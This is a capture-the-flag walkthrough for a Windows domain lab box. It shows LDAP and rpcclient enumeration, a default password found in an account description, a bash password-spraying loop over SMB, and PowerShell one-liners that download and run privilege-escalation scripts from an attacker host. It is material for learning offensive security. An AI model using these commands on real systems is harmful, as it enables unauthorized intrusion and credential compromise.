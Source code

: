 ![](./logo.png)

The initial enumeration of the box provides us with a huge number of ports open.

Our first enumeration point should be `ldap`:

We can check for an anon bind with the command below:
```
nmap -p 389 --script ldap-search 10.10.10.169
```

We can see a huge dump of `ldap` records. This will be much easier with a GUI. We are going to use `jxplorer`

Below is a screen grab of an important user.

![](./_images/jx_explorer.png)

We can see in the description the string:

```
Account created. Password set to Welcome123!
```

The password does not work with this specific user. However, as this is the default it may work with a less vigilant user.

We therefore, need to enumerate some more users. We can use `rpcclient` for this:

```
rpcclient -U "" -N 10.10.10.169
```

```
rpcclient $> enumdomusers

    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[ryan] rid:[0x451]
    user:[marko] rid:[0x457]
    user:[sunita] rid:[0x19c9]
    user:[abigail] rid:[0x19ca]
    user:[marcus] rid:[0x19cb]
    user:[sally] rid:[0x19cc]
    user:[fred] rid:[0x19cd]
    user:[angela] rid:[0x19ce]
    user:[felicia] rid:[0x19cf]
    user:[gustavo] rid:[0x19d0]
    user:[ulf] rid:[0x19d1]
    user:[stevie] rid:[0x19d2]
    user:[claire] rid:[0x19d3]
    user:[paulo] rid:[0x19d4]
    user:[steve] rid:[0x19d5]
    user:[annette] rid:[0x19d6]
    user:[annika] rid:[0x19d7]
    user:[per] rid:[0x19d8]
    user:[claude] rid:[0x19d9]
    user:[melanie] rid:[0x2775]
    user:[zach] rid:[0x2776]
    user:[simon] rid:[0x2777]
    user:[naoki] rid:[0x2778]
```

And we can get more information on a user like so:
```
rpcclient $> queryuser ryan
	User Name   :	ryan
	Full Name   :	Ryan Bertrand
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 BST
	Logoff Time              :	Thu, 01 Jan 1970 01:00:00 BST
	Kickoff Time             :	Thu, 01 Jan 1970 01:00:00 BST
	Password last set Time   :	Wed, 11 Dec 2019 09:38:03 GMT
	Password can change Time :	Thu, 12 Dec 2019 09:38:03 GMT
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 GMT
	unknown_2[0..31]...
	user_rid :	0x451
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000002
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

Using the script below we can brute force the users and password combo:

```bash
USERS="krbtgt ryan marko sunita abigail marcus sally fred angela felicia gustavo ulf stevie claire paulo steve annette annika per claude melanie zach simon naoki"

for u in ${USERS[@]}; do
	echo $u
	python3 ~/GitHub/Pentesting_Tools/Enumeration/Impacket/smbclient.py $u:Welcome123\!@10.10.10.169
	echo ""
done; 
```

Default password works with the user `melanie`:

```
melanie:Welcome123!
```

We can then use this username and password with our best friend `evil-wimrm.rb` 

To log on and grab the `user.txt`!

# ROOT

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/jaws-enum.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/PowerUp.ps1'); Invoke-AllChecks


```
[*] Checking %PATH% for potentially hijackable DLL locations...


ModifiablePath    : C:\Users\melanie\AppData\Local\Microsoft\WindowsApps
IdentityReference : MEGABANK\melanie
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\melanie\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\melanie\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/PowerUp.ps1'); Write-HijackDll -DllPath 'C:\Users\melanie\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/Ikeext-Privesc.ps1'); Invoke-IkeextCheck